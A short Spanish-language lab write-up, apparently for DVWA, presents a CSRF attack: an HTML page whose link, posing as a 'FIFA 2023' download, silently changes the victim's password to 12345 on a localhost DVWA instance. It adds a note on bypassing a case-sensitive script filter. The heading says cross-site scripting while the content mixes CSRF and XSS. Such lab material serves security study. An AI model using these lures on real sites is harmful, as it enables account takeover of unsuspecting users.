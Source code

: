 # Reflected Cross Site

El cross-site request forgery (CSRF) consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. \
Se envía un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por el atacante. \
El siguiente códio HTML contiene la acción maliciosa que cambiará la contraseña automáticamente a (12345) al pinchar en el enlace.

## Level: Low
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```

Una vez el usuario pincha en el enlace, la contraseña se cambia a la que se ha asignado en el código malicioso.

## Level: Medium

En este nivel DVWA introduce un control de entradas muy básico, no se puede utilizar <script> pero si que se puede utilizar <SCRIPT>. \
Esto es debido a que la función utilizada para el filtrado es sensible a las mayúsculas/minúsculas
